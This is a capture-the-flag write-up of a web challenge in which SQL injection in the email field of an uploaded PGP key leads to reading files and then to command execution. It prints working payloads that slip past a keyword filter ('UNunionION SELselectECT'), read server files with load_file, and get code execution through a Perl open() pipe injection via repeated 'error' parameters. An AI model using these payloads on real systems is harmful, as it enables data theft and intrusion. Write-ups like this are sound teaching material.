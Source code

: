 We need to upload a PGP public key file so the website will parse it.
The PGP can contain an SQLi in the email field. Michael A. wrote a script to make everything easier, 
The trick will now be the SQLi itself.

At first, we thought about fetching the users so we could use an activated user perhaps. 
To do this we must first find which table stores them.

## Basic SQLi
The server doesn't sanitize ', so we can just easily inject code.
However, the server does sanitize "union" and "select" among some special characters - the easiest way to check is entering 
a valid SQL query with testing AFTER the comment.

for instance the query

  email = "A' or 1 # union select ()<>?!%= "

Will return something along 
	"A' or 1 #<" 
(so just < isn't sanitized here)

**Incidentily every character is sanitized only once**, so

  email = "A' or 1 # == "

will return

  "A' or 1 # = "

## Getting the users table/columns (Ultimately not useful)  
[This](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet1 
) cheatsheet contains a lot of useful queries, like how to get a list of the tables and of columns:

To get (All) the tables we use:

  ```email = "A' UNunionION SELselectECT table_name,1,1,1,1 FROM information_schema.tables # "```

"table_name" has to be first, because only the first column is shown to the user.

The last table in the response is :

```"information_schema.tables # </br>[different key]</br>
(accounts) A' UNION SELECT table_name,1,1,1,1 FROM"```

So we can see the table name is "accounts"

To get all the coulmns from all of the tables we use:


  email = "A' UNunionION SELselectECT column_name,1,1,1,1 FROM information_schema.columns # "
  
Which returns 

 ```information_schema.columns # </br>[different key]</br>
(path) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>
(user_id) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>
(pass) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>
(activated) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>```


Too bad there are no activated users, which can be verified with 

  ```email = "A' UNunionION SELselectECT activated,1,1,1,1 FROM accounts"```

Trying to insert an activated user or to update one also didn't work...

## Solution

We're interested in the source code, but to know where it is we need to check lighttpd.conf first - because the website is powered by lighttpd.
We can't deliver straight ASCII, because we might have characters which will bang the SQL query.

We can use mySQL's load_file() to load a file, and hex() to encode it into hex:

So to get the [configuration](lighttpd.conf) we can use the following query:

```email = "A' UNunionION SELselectECT ()hex(load_file('/etc/lighttpd/lighttpd.conf')),1,1,1,1 #"```

The result contains the name of our [index page (source)](index.pl), to get it we use:

```email = "A' UNunionION SELselectECT ()hex(load_file('/var/www/html/public/index.pl')),1,1,1,1 #"```

Inside we can see that the flag is loaded from '../private/config.ini', so we get the flag:

```email = "A' UNunionION SELselectECT ()hex(load_file('/var/www/html/private/config.ini')),1,1,1,1 #"```

which gives us:

>[Database] Password=BlulS@ablul [CTF] Flag=ILov3P3rl43v3r



## RCE

Inside the index page there are no execute() or system() functions, so RCE is not really straight forward.
However, googling for "perl rce" landed me on [this](http://www.cgisecurity.com/lib/sips.html) page, which includes a section about how open() can be used for RCE:
>If the filename begins with "|", the filename is interpreted as a command to which output is to be piped, and if the filename ends with a "|", the filename is interpreted as a command which pipes output to us.

open() is being called from the get_template subroutine:

	sub get_template {
		my $filename = shift;

		open (FILE, $filename);
		my $output = <FILE>;
		close(FILE);

		return $output;
	}

Which is being called from  print_template:

	sub print_template {
		my $filename = shift;

		print get_template($filename);
	}

This function is called 3 times, each time with an argument from the list :

	my %templates = (
		header => 'templates/header.html',
		footer => 'templates/footer.html',
		form => 'templates/form.html',
		error => $query->param('error')
	);

"error" can be injected into, in the form of a parameter.
Perl has a weird way of expanding hashes, as I learned from [this](http://www.youtube.com/watch?v=noQcWra6sbU&t=6m33s) talk .

We can use the same method to insert an arbitrary command to open.
Any of the other variables (header, footer or form) can be replaced with a command in the following way:

`http://<IP>/public/index.pl?error=e&error=form&error=|ls`

Where the second parameter will be the variable we want to inject into, and the third will be the command executed. 
We get the output piped to us.


